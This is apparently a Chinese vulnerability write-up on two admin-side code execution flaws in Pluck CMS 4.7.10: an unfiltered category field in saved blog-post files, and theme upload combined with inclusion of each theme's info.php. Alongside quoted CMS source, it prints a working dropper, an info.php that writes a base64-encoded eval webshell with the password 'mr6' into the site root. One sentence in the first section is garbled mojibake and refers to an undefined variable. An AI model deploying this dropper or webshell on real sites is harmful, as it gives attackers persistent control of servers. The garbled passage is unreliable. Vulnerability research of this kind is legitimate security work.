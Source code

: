 # Pluck CMS后台另两处任意代码执行


<meta name="referrer" content="no-referrer" />

## 前言

本来是在cnvd上看到了有人发Pluck CMS的洞，但是没有公开细节，便想着自己挖一下。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414013-1ccfc948-88c7-4562-96d6-f1b73cdb23e4.png)

但是审完第一个后发现已经有两位同学写出来了

[Pluck CMS 4.7.10远程代码执行漏洞分析](https://xz.aliyun.com/t/6486)

[Pluck CMS 4.7.10 后台 文件包含+文件上传导致getshell代码分析](https://xz.aliyun.com/t/6543)

当时自己的思路跟第一个同学一样，第二个同学的思路自己确实没有想到，佩服佩服。

但是心有不甘，自己就继续挖掘了一下，又发现了两处可以任意命令执行的地方。

## 正文

### 第一处：过滤不严导致单引号逃逸

这个跟第一篇思路一样，只不过找到了另一处未过滤的点

在`function.php`里面`blog_save_post()`函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
	//Check if 'posts' directory exists, if not; create it.
	if (!is_dir(BLOG_POSTS_DIR)) {
		mkdir(BLOG_POSTS_DIR);
		chmod(BLOG_POSTS_DIR, 0777);
	}
	//Create seo-filename
	$seoname = seo_url($title);
	//Sanitize variables.
	$title = sanitize($title, true);
	$content = sanitizePageContent($content, false);
	if (!empty($current_seoname)) {
		$current_filename = blog_get_post_filename($current_seoname);
		$parts = explode('.', $current_filename);
		$number = $parts[0];
		//Get the post time.
		include BLOG_POSTS_DIR.'/'.$current_filename;
		if ($seoname != $current_seoname) {
			unlink(BLOG_POSTS_DIR.'/'.$current_filename);
			if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
				rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
		}
	}
	else {
		$files = read_dir_contents(BLOG_POSTS_DIR, 'files');
		//Find the number.
		if ($files) {
			$number = count($files);
			$number++;
		}
		else
			$number = 1;
		if (empty($force_time))
			$post_time = time();
		else
			$post_time = $force_time;
	}
	//Save information.
	$data['post_title']    = $title;
	$data['post_category'] = $category;
	$data['post_content']  = $content;
	$data['post_time']     = $post_time;
	save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);
	//Return seoname under which post has been saved (to allow for redirect).
	return $seoname;
}
```

其中

```
$data['post_title']    = $title;
	$data['post_category'] = $category;
	$data['post_content']  = $content;
	$data['post_time']     = $post_time;
```

$title  content åè¢«è¿æ»¤ï¼post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414122-82d3a774-b95d-48d3-be5d-706ed8fd141d.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414238-be9dab3c-57bd-49b6-a4f0-486c36e7d6ef.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414333-e34949fc-0b34-4477-b8a0-c6ba56824748.png)

### 第二处：安装模版+文件包含导致任意命令执行

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

#### 直接访问失败

首先准备一个`shell.php`里面是我们的`phpinfo();`

然后打包成`shell.zip`，直接上传主题

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414431-f2b003ff-fe03-4675-8e8f-33d89779d2db.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414523-9fc966fe-81c9-4807-a3b0-951d6453df12.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414611-9cb08d85-6d75-4c58-b89c-e842984cbac1.png)

发现确实上传并且解压成功

但是由于目录下有`.htaccess`文件，直接把php设置为不可解析，所以无法直接访问

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414705-e816307a-f173-4b0b-ad2e-7a4ce6c60aa7.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414804-4eef60e4-823c-46c7-bd09-8d077a272464.png)

#### 文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到`admin.php`中关于`theme`的部分

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414892-54b2c30f-68a3-49f9-8839-01057772b313.png)

跟进 `data/inc/theme.php`，发现调用了`get_themes()`方法

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900414978-5c97b98e-4d6d-4c05-843b-db94db1b5d8b.png)

跟进 `functions.all.php`，查看`get_themes()`方法

```
function get_themes() {
	$dirs = read_dir_contents('data/themes', 'dirs');
	if ($dirs) {
		natcasesort($dirs);
		foreach ($dirs as $dir) {
			if (file_exists('data/themes/'.$dir.'/info.php')) {
				include_once ('data/themes/'.$dir.'/info.php');
				$themes[] = array(
					'title'   => $themename,
					'dir' => $dir
				);
			}
		}
		return $themes;
	}
	else
		return false;
}
```

发现会遍历`data/themes/`下所有主题目录，并且包含他的`info.php`文件

此时`info.php`可控，就导致了任意代码执行。

#### 利用方法

首先准备一个`info.php`

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?>
```

然后打包压缩成`shell.zip`

上传安装主题，然后点击回到主题页，此时触发文件包含。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415074-9446a557-1805-4658-97b9-ff4f79cdc0fd.png)

然后根目录下就会生成我们的一句话x.php，密码是mr6

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415156-8a08993d-6b4f-44c1-bbf4-54c85d5b6927.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415236-098a16ae-69aa-4012-8849-f0dace1f728c.png)

## 最后

**本人水平有限，文笔较差，如果有什么写的不对的地方还希望大家能够不吝赐教**



